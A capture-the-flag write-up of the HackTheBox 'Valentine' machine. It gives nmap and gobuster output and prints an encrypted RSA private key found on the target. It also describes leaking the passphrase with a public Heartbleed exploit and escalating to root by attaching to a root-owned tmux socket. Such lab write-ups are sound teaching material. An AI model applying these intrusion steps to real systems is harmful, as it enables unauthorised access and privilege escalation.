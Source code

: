 # Valentine

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/0928706d-54c9-484c-a320-03107bd816ba)

## Difficulty = Easy
---

Let run Our nmap scan :

```sh
# Nmap 7.94 scan initiated Fri Aug 11 15:00:18 2023 as: nmap -p22,80,443 --min-rate=1000 -sCV -v -oN nmap.txt 10.10.10.79
Nmap scan report for 10.10.10.79
Host is up (0.30s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Issuer: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2018-02-06T00:45:25
| Not valid after:  2019-02-06T00:45:25
| MD5:   a413:c4f0:b145:2154:fb54:b2de:c7a9:809d
|_SHA-1: 2303:80da:60e7:bde7:2ba6:76dd:5214:3c3c:6f53:01b1
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_ssl-date: 2023-08-11T19:00:50+00:00; 0s from scanner time.
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug 11 15:00:53 2023 -- 1 IP address (1 host up) scanned in 35.14 seconds
```

We have a website (Port 80/443), Navigating there gives us this

![](https://i.imgur.com/qOqImDC.png)

Nothing much, just an image file, let us `view-source` :

![](https://i.imgur.com/x9p2z0M.png)

Still nothing, let check directory-bruteforce

```sh
sec-fortress@Pwn-F0rk-3X3C:~/HTB/Valentine$ gobuster dir -u http://10.10.10.79/ -w ~/SecLists-master/Discovery/Web-Content/common.txt -b 401,400,400,501,402,404,403 -x bak,zip,php,PHP,txt,html -t 40 2>/dev/null
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.79/
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /home/sec-fortress/SecLists-master/Discovery/Web-Content/common.txt
[+] Negative Status codes:   400,501,402,404,403,401
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,PHP,txt,html,bak,zip
[+] Timeout:                 10s
===============================================================
2023/08/11 15:02:01 Starting gobuster in directory enumeration mode
===============================================================
/decode.php           (Status: 200) [Size: 552]
/decode               (Status: 200) [Size: 552]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.79/dev/]
/encode               (Status: 200) [Size: 554]
/encode.php           (Status: 200) [Size: 554]
/index                (Status: 200) [Size: 38]
/index.php            (Status: 200) [Size: 38]
/index.php            (Status: 200) [Size: 38]

===============================================================
2023/08/11 15:12:09 Finished
===============================================================
```

Nice let us check /dev first :

![](https://i.imgur.com/js9aULK.png)

Checking `notes.txt` Looks like we have a note to fix our encoder/decoder :

![](https://i.imgur.com/SlI3l6k.png)

Let check `hype_key` :

![](https://i.imgur.com/aRpJARY.png)

We have an hexadecimal encoded string, let decode it :

![](https://i.imgur.com/hOLDHiT.png)

Since the giving decoder can't decode it and our notes.txt was to fix the encoder/decoder, let us use a third party decoder :

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY-----
```

- save it into a file with the name `id_rsa`
- Grant permissions with `chmod 600 id_rsa`
- Run `ssh -i id_rsa dev@10.10.10.79` 

![](https://i.imgur.com/SldqtLb.png)

Looks like we are been asked for the passphrase of the id_rsa key, here is why :

>With SSH keys, if someone gains access to your computer, the attacker can gain access to every system that uses that key. **To add an extra layer of security**.


- after much research i noticed that the port 443/https website is vulnerable to `# OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure (Multiple SSL/TLS Versions)`


Tip:
> Always use nmap with the `--script vuln` switch, it brings fortune 😆

Picked up an exploit from [here](https://www.exploit-db.com/exploits/32764) and ran it :

![](https://i.imgur.com/UungXfE.png)

Note: you might need to run the exploit more than once before it works, i ran it 4 times 😭

- Now we've got the key in base64 encoded format, decoding it gives us the passphrase :

![](https://i.imgur.com/9eTvyyL.png)

Let login via ssh again with the user `hype` , but before that add this to your ~/.ssh/config file, if you don't have a config file, then create it with `touch ~/.ssh/config` and add this text to it :

```
Host *
    PubkeyAcceptedKeyTypes +ssh-rsa
```

![](https://i.imgur.com/MRelCBv.png)
### Successfully logged in, let do privilege escalation

- let run `ls -a` in the home directory :

![](https://i.imgur.com/hX43KPJ.png)

- Nothing much, doing `ps aux` gave me an unusual tmux snapshot running as root

![](https://i.imgur.com/iw06g1Y.png)


- using the command `/usr/bin/tmux -S /.devs/dev_sess` , then gave us root :

![](https://i.imgur.com/fEzrwT2.png)

Baaaannnnnnkaiiii🧘‍♀️
